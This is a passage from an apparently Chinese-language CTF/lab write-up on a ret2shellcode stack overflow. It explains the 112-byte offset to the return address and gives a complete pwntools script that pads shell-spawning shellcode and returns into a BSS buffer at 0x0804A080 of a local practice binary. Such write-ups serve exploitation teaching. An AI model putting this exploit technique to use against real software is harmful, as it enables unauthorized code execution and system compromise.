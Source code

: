 因为`strncpy(buf2, v4, 100)`，我们输入的数据的前100个字节就会被直接放到BSS段的0x0804A080这个位置，足够放下一段shellcode。那么需要输入到变量v4的数据就是“shellcode+填充+0x0804A080”。

下一步就是确定“shellcode+填充”的总长度，和之前一样，使用cyclic：

![image-20230414143752634](./README.assets/image-20230414143752634.png)

在EIP寄存器的值还是“daab”，也就是说变量v4到main()函数栈帧返回地址的距离和上一个实验一样，还是112字节。

下面来构造脚本：

```python
from pwn import *


pwn_obj = process("./ret2shellcode")
shellcode = asm(shellcraft.sh()).ljust(112, b"\x00") # 总长度112，左对齐
target_addr = 0x0804A080
pwn_obj.sendline(shellcode + p32(target_addr))
pwn_obj.interactive()
```

执行结果：

![image-20230414173439543](./README.assets/image-20230414173439543.png)
